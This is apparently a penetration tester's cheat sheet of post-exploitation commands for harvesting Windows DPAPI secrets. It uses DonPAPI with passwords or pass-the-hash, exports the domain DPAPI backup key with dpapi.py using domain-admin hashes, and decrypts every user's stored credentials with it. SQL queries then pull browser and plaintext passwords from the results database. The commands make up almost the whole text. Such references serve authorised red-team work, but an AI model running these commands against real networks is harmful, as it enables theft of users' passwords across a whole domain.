# DPAPI

% dpapi, windows, donpapi

## DonPAPI - Dump all - pwd
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi <domain>/<user>:<password>@<target> -o donpapi_res
```

## DonPAPI - Dump all - hashes
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi <domain>/<user>@<target> -R -o donpapi_res --hashes '<hashes>'
```

## Get Domain BackupKeys
#plateform/linux #target/remote #cat/POSTEXPLOIT
```
dpapi.py backupkeys --export -t <domain>/<da_user>@<dc_ip> -hashes '<hashes>'
```

##  DonPAPI - Dump all with backup key

#plateform/linux #target/remote #cat/POSTEXPLOIT
```
donpapi -pvk domain_backupkey.pvk <domain>/<da_user>@<network_file> -R -o donpapi_res --hashes '<hashes>'
```

## DonPAPI DB - Browser pwd not empty

```
select username, password, target from credz where type like 'browser%' and password IS NOT '' and password is not ' ';
```

## DonPAPI DB - List type of credz

```
select distinct type from credz;
```


## DonPAPI DB - Select credz whith clean password 

```
select username, password,target from credz where password REGEXP '^[\x20-\x7EÀ-ÖØ-öø-ÿ]+$' and length(password) between 4 and 30;
```

